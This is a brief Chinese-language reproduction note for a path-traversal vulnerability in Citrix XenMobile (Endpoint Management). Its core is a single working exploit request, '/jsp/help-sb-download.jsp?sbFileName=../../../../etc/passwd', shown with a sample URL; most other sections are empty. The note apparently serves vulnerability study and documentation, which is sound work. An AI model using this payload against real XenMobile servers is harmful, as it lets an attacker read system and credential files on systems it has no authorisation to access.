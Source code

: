# 0x00 软件介绍
XenMobile：Citrix Endpoint Management（也称为XenMobile）用于管理员工的移动设备和移动应用程序。通常，由于Active Directory集成，它部署在网络外围并可以访问内部网络。这使XenMobile成为安全研究的主要目标。

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：无

# 0x02 环境搭建
无

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

直接在ip后加如下路径
```
/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如
```
http://www.example.com/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如下图  
![image](./0.png)  
![image](./1.png)

# 0x06 踩坑记录
无

# 0x07 参考链接
https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server/
